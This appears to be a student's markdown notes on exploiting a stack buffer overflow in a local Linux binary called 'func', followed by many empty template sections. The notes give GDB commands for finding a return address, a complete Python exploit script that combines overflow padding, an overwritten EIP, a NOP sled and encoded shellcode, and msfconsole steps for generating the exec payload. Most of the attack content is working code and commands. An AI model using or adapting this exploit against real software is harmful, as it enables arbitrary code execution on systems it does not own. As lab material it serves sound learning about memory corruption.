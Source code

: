 ### Run GDB against the program you want to view
#### The disass command to see what the code is performing and the memory spaces
    gdb func
    disass getuserinput                               #This was a function found in the script.
_____________________________________________________________________________________________________________________
### Create a python script to run against the program in gbd.
#### Buffer to see when the program breaks, EIP to jump to the point in memory, nop sled to push your code into executable space in memory, print to view the output as you update the script. THIS SCRIPT IS FULLY UPDATED!
    buffer = "A" * 62
    
    #eip = "BBBB"
    eip = "\x59\x3b\xde\xf7"
    
    #0xf7de3b59 "\xf7\xde\x3b\x59" "\x59\x3b\xde\xf7"
    #0xf7f588ab "\xf7\xf5\x88\xab" "\xab\x88\xf5\xf7"
    #0xf7f645fb "\xf7\xf6\x45\xfb" "\xfb\x45\xf6\xf7"
    
    nop = '\x90' * 5
    
    buf =  b""                                                            #This is gotten from the msfconsole
    buf += b"\xd9\xc6\xba\x7b\x1d\x43\x22\xd9\x74\x24\xf4\x5e"            #commands that were ran below!!!!!!
    buf += b"\x31\xc9\xb1\x0b\x83\xc6\x04\x31\x56\x15\x03\x56"
    buf += b"\x15\x99\xe8\x29\x29\x05\x8a\xfc\x4b\xdd\x81\x63"
    buf += b"\x1d\xfa\xb2\x4c\x6e\x6c\x43\xfb\xbf\x0e\x2a\x95"
    buf += b"\x36\x2d\xfe\x81\x4e\xb1\xff\x51\x26\xd9\x90\x30"
    buf += b"\xa5\x70\x6f\xe4\x66\x0b\x8e\xc7\x09"
    
    print(buffer + eip + nop + buf)
_____________________________________________________________________________________________________________________
### Open the gdb enviroment to unset the memory.
#### Use the find command to locate the memory thats vulnerable to update your script.
    env - gdb func
    show env
    unset LINES
    unset COLUMNS
    find /b 0xf7de2000 , 0xf7ffe000 , 0xff , 0xe4
_____________________________________________________________________________________________________________________
### Open gdb against the program func
#### This is for testing the script continuously as you UPDATE IT.
    gdb func
    run <<< $(python test.py)                     #The name of the script is test.py
_____________________________________________________________________________________________________________________
### Run msfconsole to get the shellcode to run the command in the script.
#### step will take several attempts of running the last command and pasting into script.
    msfconsole
    use payload/linux/x86/exec
    show options
    set CMD whoami
    show options
    generate -b "\x00" -f python                  #copy the output and place into python script may take a few tries.
_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
